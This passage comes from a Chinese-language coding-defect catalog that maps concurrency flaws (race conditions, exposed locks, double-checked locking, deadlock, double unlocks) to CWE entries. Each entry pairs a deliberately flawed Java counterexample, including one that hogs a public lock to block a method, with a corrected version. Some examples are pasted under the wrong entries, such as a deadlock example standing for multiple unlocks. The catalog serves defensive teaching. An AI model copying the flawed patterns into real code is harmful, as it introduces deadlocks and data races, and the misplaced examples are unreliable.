  使用专门的并发测试工具和技术验证多线程环境下的正确性。

**示例**
**案例1: 多线程环境下由于上下文切换导致的竞争条件问题**
**语言: **JAVA

**描述**
案例展示一个在多线程环境下由于上下文切换导致的竞争条件问题。我们模拟一个银行账户转账系统，两个线程同时对一个账户进行存款和取款操作。由于缺乏适当的同步机制，当线程在检查余额和实际执行操作之间发生上下文切换时，会导致数据不一致。

**案例分析**
- 竞争条件：当两个线程同时访问和修改`balance`变量时，由于没有同步机制，会导致数据不一致。
- 上下文切换问题：在`deposit()`和`withdraw()`方法中，读取余额和更新余额之间存在延迟（通过`Thread.sleep()`模拟），这增加了上下文切换发生的可能性。
- 检查后执行问题：在`withdraw()`方法中，先检查余额是否足够，然后再执行取款操作，这两个操作不是原子的，可能导致取款后余额为负。
- 可见性问题：由于没有使用`volatile`或`同步机制`，一个线程对`balance`的修改可能对其他线程不可见。

**反例**
```java
public class BankAccount {
    private double balance;

    public BankAccount(double initialBalance) {
        this.balance = initialBalance;
    }

    // 存款方法
    public void deposit(double amount) {
        double newBalance = balance + amount;
        // 模拟耗时操作
        try {
            Thread.sleep(10);
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
        balance = newBalance;
        System.out.println("存款后余额: " + balance);
    }

    // 取款方法
    public void withdraw(double amount) {
        if (balance >= amount) {
            double newBalance = balance - amount;
            // 模拟耗时操作
            try {
                Thread.sleep(10);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            balance = newBalance;
            System.out.println("取款后余额: " + balance);
        } else {
            System.out.println("余额不足，取款失败");
        }
    }

    public double getBalance() {
        return balance;
    }
}

public class RaceConditionDemo {
    public static void main(String[] args) throws InterruptedException {
        BankAccount account = new BankAccount(1000);

        // 创建存款线程
        Thread depositThread = new Thread(() -> {
            for (int i = 0; i < 100; i++) {
                account.deposit(100);
            }
        });

        // 创建取款线程
        Thread withdrawThread = new Thread(() -> {
            for (int i = 0; i < 100; i++) {
                account.withdraw(100);
            }
        });

        // 启动线程
        depositThread.start();
        withdrawThread.start();

        // 等待线程完成
        depositThread.join();
        withdrawThread.join();

        // 打印最终余额
        System.out.println("最终余额: " + account.getBalance());
    }
}
```

**正例**
```java
public class BankAccount {
    private double balance;
    private final Object lock = new Object(); // 专用锁对象

    public BankAccount(double initialBalance) {
        this.balance = initialBalance;
    }

    // 线程安全的存款方法
    public void deposit(double amount) {
        synchronized (lock) {
            double newBalance = balance + amount;
            // 模拟耗时操作
            try {
                Thread.sleep(10);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            balance = newBalance;
            System.out.println("存款后余额: " + balance);
        }
    }

    // 线程安全的取款方法
    public void withdraw(double amount) {
        synchronized (lock) {
            if (balance >= amount) {
                double newBalance = balance - amount;
                // 模拟耗时操作
                try {
                    Thread.sleep(10);
                } catch (InterruptedException e) {
                    e.printStackTrace();
                }
                balance = newBalance;
                System.out.println("取款后余额: " + balance);
            } else {
                System.out.println("余额不足，取款失败");
            }
        }
    }

    // 线程安全的余额查询
    public double getBalance() {
        synchronized (lock) {
            return balance;
        }
    }
}

public class RaceConditionDemo {
    public static void main(String[] args) throws InterruptedException {
        BankAccount account = new BankAccount(1000);

        // 创建存款线程
        Thread depositThread = new Thread(() -> {
            for (int i = 0; i < 100; i++) {
                account.deposit(100);
            }
        });

        // 创建取款线程
        Thread withdrawThread = new Thread(() -> {
            for (int i = 0; i < 100; i++) {
                account.withdraw(100);
            }
        });

        // 启动线程
        depositThread.start();
        withdrawThread.start();

        // 等待线程完成
        depositThread.join();
        withdrawThread.join();

        // 打印最终余额
        System.out.println("最终余额: " + account.getBalance());
    }
}
```

**修复建议**
- 使用同步块：为所有访问共享资源`balance`的方法添加`synchronized`块，使用专用锁对象`lock`来保证同一时间只有一个线程能访问这些方法。
- 原子操作：将检查和更新余额的操作放在同一个同步块中，确保这些操作是原子的。
- 可见性保证：同步机制不仅提供了互斥访问，还保证了内存可见性，确保一个线程的修改对其他线程立即可见。

#### CWD-1120-000 上下文切换竞争条件

**业界缺陷**

- [CWE-368: Context Switching Race Condition](https://cwe.mitre.org/data/definitions/368.html)
---

# CWD-1122 未受限制的外部可触及的锁

**描述**
程序能正确地检查锁，但是锁可以从外部被预期控制范围之外的参与者控制或影响。如：程序在等待文件锁，直到这把锁被释放，但是如果攻击者能够获得文件锁，该程序将暂停执行，导致拒绝服务。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 禁止将系统内部使用的锁对象暴露给不可信代码**
**语言: **JAVA

**描述**
使用public的静态锁对象时，攻击者可直接无限期持有SomeOjbect.lock锁，阻塞changeValue()方法的执行。

**反例**
```java
public class SomeObject {
    public static final Object lock = new Object();
    public void changeValue() {
        synchronized (lock) {
            // Locks on the private Object
            // ...
        }
    }
}
…
// Untrusted code
synchronized (SomeOjbect.lock) {
    while (true) {
        // Indefinitely delay someObject
        Thread.sleep(Integer.MAX_VALUE);
    }
}
```

**正例**
```java
public class SomeObject {
    private final Object lock = new Object(); // private final lock object
    public void changeValue() {
        synchronized (lock) {
            // Locks on the private Object
            // ...
        }
    }
}
```

**修复建议**
当使用私有不变锁对象时，攻击者将不可能获取到锁。

#### CWD-1122-000 未受限制的外部可触及的锁

**业界缺陷**

- [CWE-412: Unrestricted Externally Accessible Lock](https://cwe.mitre.org/data/definitions/412.html)
---

# CWD-1123 资源未被正确锁定

**描述**
当必须对资源的独占访问时，程序未锁定或未正确锁定资源。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 数据竞争**
**语言: **JAVA

**描述**
下面的程序中，两个线程之间没有任何同步，故publisher线程里的写操作newFoo.nr = 42与consumer线程里的myFoo.nr读操作没有happens-before关系，是data race。因此，由于CPU的乱序执行，以及编译器的变换，consumer即使看到了sharedFoo变量已赋值，看到了Foo对象已经创建，也不保证看到成员变量Foo.nr已被赋值为42。例子中，consumer的语句(4)中读myFoo.nr的值，既有可能读到publisher写入的值42，也有可能读到初值0。

**反例**
```java
class Foo {
    public int nr; // (0) 赋初值0
}

private Foo sharedFoo; // 非volatile共享变量

public void publisher() {
    ...
    Foo newFoo = new Foo();
    newFoo.nr = 42; // (1) 非volatile写
    sharedFoo = newFoo; // (2) 非volatile写
    ...
}

public void consumer() {
    ...
    Foo myFoo;
    do {
        myFoo = sharedFoo;   // (3) 非volatile读
    } while (myFoo == null); // 即便这里看到了对象已经创建，下面输出的myFoo.nr也可能不是42。
    System.out.println(myFoo.nr); // (4) 这是非volatile读。可能返回初值0或42
    ...
}
…
// Untrusted code
synchronized (SomeOjbect.lock) {
    while (true) {
        // Indefinitely delay someObject
        Thread.sleep(Integer.MAX_VALUE);
    }
}
```

**正例**
```java
class Foo {
    public volatile int nr; // (0) 赋初值0
}

private volatile Foo sharedFoo; // volatile共享变量

public void publisher() {
    ...
    Foo newFoo = new Foo();
    newFoo.nr = 42; // (1) 写操作：写入42
    sharedFoo = newFoo; // (2) volatile写操作：写入新对象的引用
    ...
}

public void consumer() {
    ...
    Foo myFoo;
    do {
        myFoo = sharedFoo;   // (3) volatile读操作：读sharedFoo里的值
    } while (myFoo == null); // 不等于null就证明(2)happens before(3)
    System.out.println(myFoo.nr); // (4) 读操作：(2)happens before(3)，返回值为42
    ...
}
```

**修复建议**
在本例中，volatile变量的写操作(2)和读操作(3)之间建立了happens-before关系，保证读操作(4)必然看到写操作(1)写入的42，而不是初值0。除了volatile变量以外，还可以使用锁同步或者使用Thread.join()同步。它们都可以建立happens-before关系。

#### CWD-1123-000 资源未被正确锁定

#### CWD-1123-001 数据竞争-单字节不同bit位被不同线程操作

#### CWD-1123-002 数据竞争-并发写，数据未加锁

#### CWD-1123-003 数据竞争-跨线程对已在一个线程释放的定时器做处理

#### CWD-1123-004 数据竞争-跨线程对数据访问未做保护

#### CWD-1123-005 数据竞争-跨进程对接受队列同时取和写

#### CWD-1123-006 多线程：跨线程对已在一个线程释放的指针函数引用

#### CWD-1123-007 多线程：访问无效内存

#### CWD-1123-008 使用来自静态/全局变量的共享数据，在并发访问时未实施锁保护机制，导致数据竞争风险

#### CWD-1123-009 在多线程环境下，对静态变量、全局变量或共享链表的无锁并发访问，导致数据竞争

#### CWD-1123-010 在多线程环境下，对静态变量、全局变量或共享链表的无锁并发访问，部分函数未有锁保护，导致数据竞争

#### CWD-1123-011 多线程场景,锁被提前销毁，导致数据竞争

#### CWD-1123-012 使用来自类的成员变量的共享数据，在并发访问时未实施锁保护机制，导致数据竞争风险

#### CWD-1123-013 多线程场景，访问全局变量，写加锁，读不加锁

#### CWD-1123-014 多线程场景，访问静态变量，部分读写操作加锁，部分读写操作未加锁

#### CWD-1123-015 多线程场景，访问同一共享对象的结构体成员变量，写操作加锁，读操作未加锁

#### CWD-1123-016 多线程场景，访问同一共享对象的结构体成员变量，写操作加锁，读操作未加锁，且加解锁是有条件的

#### CWD-1123-017 多线程场景，访问类的静态成员变量，写操作加锁了，读操作未加锁

#### CWD-1123-018 多个线程同时访问同一共享变量，写操作加一个锁，读操作加另一个不同的锁

#### CWD-1123-019 多个线程同时访问同一共享变量，写操作使用了读锁

#### CWD-1123-020 多线程场景，访问全局变量，临界区未保护或保护不当

#### CWD-1123-021 多线程场景，访问静态变量，临界区未保护或保护不当

#### CWD-1123-022 多线程场景，访问指针变量，临界区未保护或保护不当

#### CWD-1123-023 多线程场景，使用非安全API

#### CWD-1123-024 多线程场景，访问同一文件，临界区未保护或者保护不当

#### CWD-1123-025 自处理任务场景，访问全局变量，临界区未保护或保护不当

#### CWD-1123-026 自处理任务场景，访问静态变量，临界区未保护或保护不当

#### CWD-1123-027 自处理任务场景，访问指针变量，临界区未保护或保护不当

#### CWD-1123-028 自处理任务场景，使用非安全API

#### CWD-1123-029 自处理任务场景，访问同一文件，临界区未保护或者保护不当

#### CWD-1123-030 消息处理任务场景，访问全局变量，临界区未保护或保护不当

#### CWD-1123-031 消息处理任务场景，访问静态变量，临界区未保护或保护不当

#### CWD-1123-032 消息处理任务场景，访问指针变量，临界区未保护或保护不当

#### CWD-1123-033 消息处理任务场景，使用非安全API

#### CWD-1123-034 消息处理任务场景，访问同一文件，临界区未保护或者保护不当

#### CWD-1123-035 定时器场景，访问全局变量，临界区未保护或保护不当

#### CWD-1123-036 定时器场景，访问静态变量，临界区未保护或保护不当

#### CWD-1123-037 定时器场景，访问指针变量，临界区未保护或保护不当

#### CWD-1123-038 定时器场景，使用非安全API

#### CWD-1123-039 定时器场景，访问同一文件，临界区未保护或者保护不当

#### CWD-1123-040 多线程场景，访问全局变量，使用的锁不一样

#### CWD-1123-041 多线程场景，文件读写和关闭存在数据竞争

#### CWD-1123-042 共享资源使用C++标准锁接口，但是加锁不全

#### CWD-1123-043 共享资源使用Linux POSIX锁接口，但是加锁不全

#### CWD-1123-044 共享资源使用自封装的锁，但是加锁不全

#### CWD-1123-045 加锁后未解锁

#### CWD-1123-046 静态变量加锁不全

**业界缺陷**

- [CWE-413: Improper Resource Locking](https://cwe.mitre.org/data/definitions/413.html)
---

# CWD-1124 缺少锁定检查

**描述**
在对资源执行敏感操作之前，不会检查是否存在锁。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 数据竞争**
**语言: **JAVA

**描述**
存在数据竞争的场景中未对重要操作进行加锁同步。

**反例**
```java
public class SomeSharedResource {
    private final Lock lock = new ReentrantLock();

    public void updateResource() {       
        // 更新共享的资源
        ...   
    }

    public void doSomething() {        
        // 更新共享的资源
        ...
    }
}
```

**正例**
```java
public class SomeSharedResource {
    private final Lock lock = new ReentrantLock();

    public void updateResource() {
        lock.lock();
        try {
            // 更新共享的资源
            ...
        } finally {
            lock.unlock();
        }
    }

    public void doSomething() {
        lock.lock();
        try {
            // 更新共享的资源
            ...
        } finally {
            lock.unlock();
        }
    }
}
```

**修复建议**
重要操作进行加锁同步。

#### CWD-1124-000 缺少锁定检查

**业界缺陷**

- [CWE-414: Missing Lock Check](https://cwe.mitre.org/data/definitions/414.html)
---

# CWD-1125 双重检查锁定

**描述**
双重检查锁定指的是这样一种情况：程序员检查资源是否已初始化，获取锁，再次检查资源是否已初始化，然后执行初始化（如果尚未初始化）。但它不能保证在所有语言和所有体系结构上都能工作。其他线程可能不在同步块内操作，并且不能保证看到操作执行的顺序与它们在同步块中出现的顺序相同。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 不正确的双重锁定**
**语言: **JAVA

**描述**
本示例中，当一个线程完成对成员属性instance的赋值时，并未完成对象的完全初始化，也就是说此时另外一个并发线程调用getSingletonInstance()会得到一个指向Singleton对象的非空引用，然而该对象的数据成员可能是默认值，而不是构造方法中设置的值。

**反例**
```java
final class Singleton {
    private static Singleton instance = null;
    private static final Object LOCK = new Object();

    private Singleton() {
        ...
    }

    public static Singleton getSingletonInstance() {
        if (instance == null) {
            synchronized (LOCK) {
                if (instance == null) {
                    instance = new Singleton();
                }
            }
        }
        return instance;
    }
}
```

**正例**
```java
final class Singleton {
    private static volatile Singleton instance = null;
    private static final Object LOCK = new Object();

    private Singleton() {
        ...
    }

    public static Singleton getSingletonInstance() {
        if (instance == null) {
            synchronized (LOCK) {
                if (instance == null) {
                    instance = new Singleton();
                }
            }
        }
        return instance;
    }
}
```

**修复建议**
本例中把instance声明为volatile，当一个线程初始化Singleton对象时，会在这个线程和其他任何获取该实例的线程之间建立起happens-before关系。避免使用到未初始化完全的对象引用。

#### CWD-1125-000 双重检查锁定

#### CWD-1125-001 单例模式不正确的双重检查锁实现

#### CWD-1125-002 针对同一共享资源使用了2把锁

**业界缺陷**

- [CWE-609: Double-Checked Locking](https://cwe.mitre.org/data/definitions/609.html)
---

# CWD-1126 关键资源的多次锁定

**描述**
锁定关键资源后未解锁，又重复锁定。在并发环境中运行并反复锁定一个关键资源时，其后果将因锁的类型、锁的实现以及被保护的资源而异。在某些情况下（例如使用信号量），资源是池化的，额外的锁定调用将减少总可用池的大小，可能导致性能下降或拒绝服务。如果这可以由攻击者触发。在二进制锁的上下文中，任何重复的锁定尝试很可能永远不会成功，因为锁已经被持有，并且可能无法继续。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 多重锁定导致死锁**
**语言: **JAVA

**描述**
本示例中存在死锁的情况，当bankA和bankB两个银行账户同步互相进行转账时，就可能会导致死锁的问题。

**反例**
```java
final class BankAccount {
    private double balanceAmount; // 银行账户中的总金额

    BankAccount(double balance) {
        this.balanceAmount = balance;
    }

    // 将当前账户对象的存款转寄给另一个银行账号实例ba
    private void depositAmount(BankAccount ba, double amount) {
        synchronized (this) {
            synchronized (ba) {
                if (amount > balanceAmount) {
                    throw new IllegalArgumentException(
                        "Transfer cannot be completed");
                }
                ba.balanceAmount += amount;
                this.balanceAmount -= amount;
            }
        }
    }

    public static void initiateTransfer(BankAccount first, BankAccount second,
        double amount) {
        Thread transfer = new Thread(new Runnable() {
            public void run() {
                first.depositAmount(second, amount);
            }
        });
        transfer.start();
    }

    public static void main(String[] args) {
        BankAccount bankA = new BankAccount(15000);
        BankAccount bankB = new BankAccount(9000);

        initiateTransfer(bankA, bankB, 500);
        initiateTransfer(bankB, bankA, 1400);
        ...
    }
}
```

**正例**
```java
final class BankAccount {
    private double balanceAmount; // 银行账户中的总金额
    private final Lock lock = new ReentrantLock();
    private final Random number = new Random(123L);

    BankAccount(double balance) {
        this.balanceAmount = balance;
    }

    // 将当前账户对象的存款转寄给另一个银行账号实例ba
    private void depositAmount(BankAccount ba, double amount)
        throws InterruptedException {
        while (true) {
            if (this.lock.tryLock()) {
                try {
                    if (ba.lock.tryLock()) {
                        try {
                            if (amount > balanceAmount) {
                                throw new IllegalArgumentException(
                                    "Transfer cannot be completed");
                            }
                            ba.balanceAmount += amount;
                            this.balanceAmount -= amount;
                            break;
                        } finally {
                            ba.lock.unlock();
                        }
                    }
                } finally {
                    this.lock.unlock();
                }
            }
            int n = number.nextInt(1000);
            int time = 1000 + n; // 1秒+随机时间的延迟，防止livelock
            Thread.sleep(time);
        }
    }

    public static void initiateTransfer(BankAccount first, BankAccount second,
        double amount) {
        Thread transfer = new Thread(new Runnable() {
            public void run() {
                try {
                    first.depositAmount(second, amount);
                } catch (InterruptedException ex) {
                    Thread.currentThread().interrupt(); // 重置中断状态
                }
            }
        });
        transfer.start();
    }
}
```

**修复建议**
本示例中，每个BankAccount都有一个ReentrantLock锁。此设计允许depositAmount()方法尝试获取两个帐户的锁，如果失败则释放锁，并在必要时稍后重试。

#### CWD-1126-000 关键资源的多次锁定

#### CWD-1126-001 特定条件的分支内重复锁定

**业界缺陷**

- [CWE-764: Multiple Locks of a Critical Resource](https://cwe.mitre.org/data/definitions/764.html)
---

# CWD-1127 关键资源的多次解锁

**描述**
对关键资源的解锁次数超过预期次数，导致系统出现意外状态。在多线程或多进程环境中运行并反复解锁关键资源时，其后果将因锁的类型、锁的实现以及所保护的资源而异。例如：攻击者向内存读取函数提供无效地址，导致互斥锁被解锁两次。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 多重锁定导致思索**
**语言: **JAVA

**描述**
本示例中存在死锁的情况，当bankA和bankB两个银行账户同步互相进行转账时，就可能会导致死锁的问题。

**反例**
```java
final class BankAccount {
    private double balanceAmount; // 银行账户中的总金额

    BankAccount(double balance) {
        this.balanceAmount = balance;
    }

    // 将当前账户对象的存款转寄给另一个银行账号实例ba
    private void depositAmount(BankAccount ba, double amount) {
        synchronized (this) {
            synchronized (ba) {
                if (amount > balanceAmount) {
                    throw new IllegalArgumentException(
                        "Transfer cannot be completed");
                }
                ba.balanceAmount += amount;
                this.balanceAmount -= amount;
            }
        }
    }

    public static void initiateTransfer(BankAccount first, BankAccount second,
        double amount) {
        Thread transfer = new Thread(new Runnable() {
            public void run() {
                first.depositAmount(second, amount);
            }
        });
        transfer.start();
    }

    public static void main(String[] args) {
        BankAccount bankA = new BankAccount(15000);
        BankAccount bankB = new BankAccount(9000);

        initiateTransfer(bankA, bankB, 500);
        initiateTransfer(bankB, bankA, 1400);
        ...
    }
}
```

**正例**
```java
final class BankAccount {
    private double balanceAmount; // 银行账户中的总金额
    private final Lock lock = new ReentrantLock();
    private final Random number = new Random(123L);

    BankAccount(double balance) {
        this.balanceAmount = balance;
    }

    // 将当前账户对象的存款转寄给另一个银行账号实例ba
    private void depositAmount(BankAccount ba, double amount)
        throws InterruptedException {
        while (true) {
            if (this.lock.tryLock()) {
                try {
                    if (ba.lock.tryLock()) {
                        try {
                            if (amount > balanceAmount) {
                                throw new IllegalArgumentException(
                                    "Transfer cannot be completed");
                            }
                            ba.balanceAmount += amount;
                            this.balanceAmount -= amount;
                            break;
                        } finally {
                            ba.lock.unlock();
                        }
                    }
                } finally {
                    this.lock.unlock();
                }
            }
            int n = number.nextInt(1000);
            int time = 1000 + n; // 1秒+随机时间的延迟，防止livelock
            Thread.sleep(time);
        }
    }

    public static void initiateTransfer(BankAccount first, BankAccount second,
        double amount) {
        Thread transfer = new Thread(new Runnable() {
            public void run() {
                try {
                    first.depositAmount(second, amount);
                } catch (InterruptedException ex) {
                    Thread.currentThread().interrupt(); // 重置中断状态
                }
            }
        });
        transfer.start();
    }
}
```

**修复建议**
本示例中，每个BankAccount都有一个ReentrantLock锁。此设计允许depositAmount()方法尝试获取两个帐户的锁，如果失败则释放锁，并在必要时稍后重试。

#### CWD-1127-000 关键资源的多次解锁

#### CWD-1127-001 特定条件的分支内重复解锁 

#### CWD-1127-002 全局内存的重复释放

#### CWD-1127-003 局部内存的重复释放

#### CWD-1127-004 全局文件的重复释放

#### CWD-1127-005 局部文件的重复释放

#### CWD-1127-006 锁资源的重复释放

#### CWD-1127-007 全局数据库句柄的重复释放

#### CWD-1127-008 局部数据库句柄的重复释放

#### CWD-1127-009 加锁后多次重复解锁

**业界缺陷**

- [CWE-765: Multiple Unlocks of a Critical Resource](https://cwe.mitre.org/data/definitions/765.html)
---

# CWD-1128 解锁未锁定的资源

**描述**
产品尝试解锁一个未被锁定的资源。根据锁定功能的不同，对未被锁定的资源进行解锁可能会导致内存损坏或其他对资源（或用于跟踪锁定的关联元数据）的修改。根据使用的锁定机制，解锁操作可能不会产生任何不良影响。当存在影响时，最常见的后果将是产品状态的损坏，可能导致崩溃或退出；根据解锁的实现方式，可能会发生内存损坏或代码执行。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 释放未锁定的锁**
**语言: **JAVA

**描述**
tryLock()可能加锁失败，为判断返回值直接在后面的代码中释放未锁定的锁，可能产生异常。

**反例**
```java
private final Lock lock = new ReentrantLock();

lock.tryLock();
doSomething();
lock.unlock();
```

**正例**
```java
private final Lock lock = new ReentrantLock();

if(lock.tryLock()) {
    doSomething();
    lock.unlock();
}
```

**修复建议**
保证在加锁成功后再释放锁。

#### CWD-1128-000 解锁未锁定的资源

#### CWD-1128-001 解锁未使用的锁

#### CWD-1128-002 【错误释放未曾获取的ReentrantLock锁对象】try块内存在代码抛出异常的行为导致后续申请锁资源的操作并未被执行，造成finally块中存在释放未曾获取的锁对象的不当操作

#### CWD-1128-003 【错误释放未曾获取的ReentrantLock锁对象】unlock释放锁前，忽略了对tryLock标记是否成功获取锁的返回值的判断

#### CWD-1128-004 【错误释放未曾获取的ReentrantReadWriteLock锁对象】try块内存在代码抛出异常的行为导致后续申请锁资源的操作并未被执行，造成finally块中存在释放未曾获取的锁对象的不当操作

#### CWD-1128-005 【错误释放未曾获取的ReentrantReadWriteLock锁对象】unlock释放锁前，忽略了对tryLock标记是否成功获取锁的返回值的判断

#### CWD-1128-006 【错误释放未曾获取的Semaphore锁对象】try块内存在代码抛出异常的行为导致后续申请锁资源的操作并未被执行，造成finally块中存在释放未曾获取的锁对象的不当操作

#### CWD-1128-007 【错误释放未曾获取的Semaphore锁对象】release释放锁前，忽略了对tryAcquire标记是否成功获取锁的返回值的判断

**业界缺陷**

- [CWE-832: Unlock of a Resource that is not Locked](https://cwe.mitre.org/data/definitions/832.html)
---

# CWD-1129 死锁

**描述**
多个线程互相等待对方释放一个必要的锁，导致死锁。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 多重锁定导致死锁**
**语言: **JAVA

**描述**
本示例中存在死锁的情况，当bankA和bankB两个银行账户同步互相进行转账时，就可能会导致死锁的问题。

**反例**
```java
final class BankAccount {
    private double balanceAmount; // 银行账户中的总金额

    BankAccount(double balance) {
        this.balanceAmount = balance;
    }

    // 将当前账户对象的存款转寄给另一个银行账号实例ba
    private void depositAmount(BankAccount ba, double amount) {
        synchronized (this) {
            synchronized (ba) {
                if (amount > balanceAmount) {
                    throw new IllegalArgumentException(
                        "Transfer cannot be completed");
                }
                ba.balanceAmount += amount;
                this.balanceAmount -= amount;
            }
        }
    }

    public static void initiateTransfer(BankAccount first, BankAccount second,
        double amount) {
        Thread transfer = new Thread(new Runnable() {
            public void run() {
                first.depositAmount(second, amount);
            }
        });
        transfer.start();
    }

    public static void main(String[] args) {
        BankAccount bankA = new BankAccount(15000);
        BankAccount bankB = new BankAccount(9000);

        initiateTransfer(bankA, bankB, 500);
        initiateTransfer(bankB, bankA, 1400);
        ...
    }
}
```

**正例**
```java
final class BankAccount {
    private double balanceAmount; // 银行账户中的总金额
    private final Lock lock = new ReentrantLock();
    private final Random number = new Random(123L);

    BankAccount(double balance) {
        this.balanceAmount = balance;
    }

    // 将当前账户对象的存款转寄给另一个银行账号实例ba
    private void depositAmount(BankAccount ba, double amount)
        throws InterruptedException {
        while (true) {
            if (this.lock.tryLock()) {
                try {
                    if (ba.lock.tryLock()) {
                        try {
                            if (amount > balanceAmount) {
                                throw new IllegalArgumentException(
                                    "Transfer cannot be completed");
                            }
                            ba.balanceAmount += amount;
                            this.balanceAmount -= amount;
                            break;
                        } finally {
                            ba.lock.unlock();
                        }
                    }
                } finally {
                    this.lock.unlock();
                }
            }
            int n = number.nextInt(1000);
            int time = 1000 + n; // 1秒+随机时间的延迟，防止livelock
            Thread.sleep(time);
        }
    }

    public static void initiateTransfer(BankAccount first, BankAccount second,
        double amount) {
        Thread transfer = new Thread(new Runnable() {
            public void run() {
                try {
                    first.depositAmount(second, amount);
                } catch (InterruptedException ex) {
                    Thread.currentThread().interrupt(); // 重置中断状态
                }
            }
        });
        transfer.start();
    }
}
```

**修复建议**
本示例中，每个BankAccount都有一个ReentrantLock锁。此设计允许depositAmount()方法尝试获取两个帐户的锁，如果失败则释放锁，并在必要时稍后重试。

#### CWD-1129-000 死锁

#### CWD-1129-001 通过条件控制加锁顺序，在特定分支下可能出现交叉锁（线程A持锁1请求锁2，线程B持锁2请求锁1），导致死锁

#### CWD-1129-002 封装加解锁函数时，读写锁的变量跨函数调用导致写操作后未解锁，导致资源泄漏或死锁风险

#### CWD-1129-003 使用多锁资源时以非固定顺序加锁且未遵循锁序规则，导致死锁风险

#### CWD-1129-004 自旋锁加锁期间执行耗时操作，违反超时限制（10s），可能导致死锁或性能问题

#### CWD-1129-005 两进程发布均通过同步调用的方式调用了双方发布的接口，形成了互相等待的死锁

#### CWD-1129-006 多个线程同时访问同一共享变量，读写操作都加了两个锁，但读写操作加解两个锁的顺序不同

#### CWD-1129-007 【ReentrantLock可重入锁未被释放】Lock锁释放操作未写在fianlly块中，中间代码可能发生异常，导致锁资源未释放,存在锁资源泄露甚至死锁的问题

#### CWD-1129-008 【ReentrantLock可重入锁未被释放】函数存在某个分支未释放锁资源对象,存在锁资源泄露甚至死锁的问题

#### CWD-1129-009 【ReentrantLock可重入锁未被释放】函数返回前未释放锁资源对象，存在锁资源泄露甚至死锁的问题

#### CWD-1129-010 【ReentrantReadWriteLock可重入读写锁未被释放】Lock锁释放操作未写在fianlly块中，中间代码可能发生异常，导致锁资源未释放,存在锁资源泄露甚至死锁的问题

#### CWD-1129-011 【ReentrantReadWriteLock可重入读写锁未被释放】读写锁的读操作中加锁和释放锁的次数需要保持一致

#### CWD-1129-012 【ReentrantReadWriteLock可重入读写锁未被释放】函数存在某个分支未释放锁资源对象,存在锁资源泄露甚至死锁的问题

#### CWD-1129-013 【ReentrantReadWriteLock可重入读写锁未被释放】函数返回前未释放锁资源对象,存在锁资源泄露甚至死锁的问题

#### CWD-1129-014 【Semaphore对象未得到正确释放】调用Semaphore对象的aquire方法后，release方法未写在fianlly块中，中间代码可能发生异常，导致线程死锁

#### CWD-1129-015 【Semaphore对象未得到正确释放】调用Semaphore对象的aquire方法后，没有调用release方法导致死锁

#### CWD-1129-016 【Semaphore对象未得到正确释放】函数存在某个分支忘记解锁的情况

**业界缺陷**

- [CWE-833: Deadlock](https://cwe.mitre.org/data/definitions/833.html)
---

# CWD-1130 缺少同步

**描述**
如果对共享资源的访问不同步，则资源可能不符合产品预期的状态。当攻击者可以影响共享资源时，会导致意外或不安全的行为。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 数据竞争**
**语言: **JAVA

**描述**
下面的程序中，两个线程之间没有任何同步，故publisher线程里的写操作newFoo.nr = 42与consumer线程里的myFoo.nr读操作没有happens-before关系，是data race。因此，由于CPU的乱序执行，以及编译器的变换，consumer即使看到了sharedFoo变量已赋值，看到了Foo对象已经创建，也不保证看到成员变量Foo.nr已被赋值为42。例子中，consumer的语句(4)中读myFoo.nr的值，既有可能读到publisher写入的值42，也有可能读到初值0。

**反例**
```java
class Foo {
    public int nr; // (0) 赋初值0
}

private Foo sharedFoo; // 非volatile共享变量

public void publisher() {
    ...
    Foo newFoo = new Foo();
    newFoo.nr = 42; // (1) 非volatile写
    sharedFoo = newFoo; // (2) 非volatile写
    ...
}

public void consumer() {
    ...
    Foo myFoo;
    do {
        myFoo = sharedFoo;   // (3) 非volatile读
    } while (myFoo == null); // 即便这里看到了对象已经创建，下面输出的myFoo.nr也可能不是42。
    System.out.println(myFoo.nr); // (4) 这是非volatile读。可能返回初值0或42
    ...
}
```

**正例**
```java
class Foo {
    public volatile int nr; // (0) 赋初值0
}

private volatile Foo sharedFoo; // volatile共享变量

public void publisher() {
    ...
    Foo newFoo = new Foo();
    newFoo.nr = 42; // (1) 写操作：写入42
    sharedFoo = newFoo; // (2) volatile写操作：写入新对象的引用
    ...
}

public void consumer() {
    ...
    Foo myFoo;
    do {
        myFoo = sharedFoo;   // (3) volatile读操作：读sharedFoo里的值
    } while (myFoo == null); // 不等于null就证明(2)happens before(3)
    System.out.println(myFoo.nr); // (4) 读操作：(2)happens before(3)，返回值为42
    ...
}
```

**修复建议**
使用volatile变量同步。在上例中，volatile变量的写操作(2)和读操作(3)之间建立了happens-before关系，保证读操作(4)必然看到写操作(1)写入的42，而不是初值0。除了volatile变量以外，还可以使用锁同步或者使用Thread.join()同步。它们都可以建立happens-before关系。

#### CWD-1130-000 缺少同步

#### CWD-1130-001 java中公共的集合发生并发写操作会报错

#### CWD-1130-002 消息延迟导致时序问题

#### CWD-1130-003 在多线程场景中，使用共享资源不同步，导致并发问题

#### CWD-1130-004 在多线程上下文中使用无同步的单例模式

**业界缺陷**

- [CWE-820: Missing Synchronization](https://cwe.mitre.org/data/definitions/820.html)
---

# CWD-1132 在多线程上下文中对共享数据的非同步访问

**描述**
产品没有正确同步共享数据，例如跨线程的静态变量，这可能导致未定义的行为和不可预测的数据更改。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  正确实现线程同步

**示例**
**案例1: 共享属性未进行同步保护**
**语言: **JAVA

**描述**
类属性被对象实例操作时未进行同步保护。

**反例**
```java
public class SomeSharedResource {
    private static volatile int counter;

    public void updateResource() {
        counter++;
    }
}
